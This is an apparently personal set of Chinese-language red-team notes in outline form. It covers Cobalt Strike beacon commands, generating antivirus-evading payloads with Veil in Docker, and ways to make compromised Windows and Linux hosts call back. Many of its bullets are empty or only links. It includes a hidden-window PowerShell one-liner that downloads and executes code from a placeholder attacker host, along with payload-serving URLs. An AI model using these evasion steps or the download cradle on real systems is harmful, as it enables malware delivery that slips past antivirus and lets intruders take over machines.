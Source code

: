 - beacon

  beacon是CS自带的命令，下面列举了这些常见的使用方法。

  - shell 可以执行cmd命令

## 0x02 免杀基础

生成一个免杀的payload在后渗透测试过程中尤为重要。由于免杀框架层出不穷现在的免杀也相比过去容易了很多。

- Veil
  - CS Payload Generator中生成Veil的Payload.txt
  - Docker 运行Veil
  - docker pull mattiasohlsson/veil
    - docker run -it -v /root/Desktop/tools/veil:/var/lib/veil/output:Z mattiasohlsson/veil
    - use 1 
    - use 17
    - generate
    - 3
    - 复制CS VeilPayload.txt
    - 参考 https://xz.aliyun.com/t/4191
- shellcode
  - 
- Powershell
- 参考链接
  - https://www.t00ls.net/viewthread.php?tid=54993
  - https://www.t00ls.net/viewthread.php?tid=55754
  - https://www.t00ls.net/viewthread.php?tid=51321
  - https://github.com/darkr4y/geacon
  - https://www.t00ls.net/thread-55958-1-1.html
  - https://www.freebuf.com/articles/system/227463.html
  - [https://wtfsec.org/posts/%E5%85%8D%E6%9D%80shellcode%E5%B9%B6%E7%BB%95%E8%BF%87%E6%9D%80%E6%AF%92%E6%B7%BB%E5%8A%A0%E8%87%AA%E5%90%AF%E5%8A%A8/](https://wtfsec.org/posts/免杀shellcode并绕过杀毒添加自启动/)
  - [https://wtfsec.org/posts/%e5%85%8d%e6%9d%80-msf-windows-payload-%e7%9a%84%e6%96%b9%e6%b3%95%e4%b8%8e%e5%ae%9e%e8%b7%b5/](https://wtfsec.org/posts/免杀-msf-windows-payload-的方法与实践/)
  - [https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87.NET%E5%AE%9E%E7%8E%B0%E5%86%85%E5%AD%98%E5%8A%A0%E8%BD%BDPE%E6%96%87%E4%BB%B6/](https://3gstudent.github.io/3gstudent.github.io/通过.NET实现内存加载PE文件/)
  - 

## 0x03 上线思考

如何上线？上线的分类有哪些？执行一条命令？运行一个可安装程序？

- Linux上线
  - Linux如何上线？
  - http://blog.leanote.com/post/snowming/c34f9defe00c

- 上线通知
  - https://www.t00ls.net/viewthread.php?tid=51487

- 打开文件
  - 可执行文件
  - 文件捆绑
- 执行命令
  - powershell
    - powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://ip:91/a'))"
    - http://ip:92/SiteLoader
    - http://ip/mPlayer
    - 参考：https://www.t00ls.net/viewthread.php?tid=52638
- cmd
    - mshta
  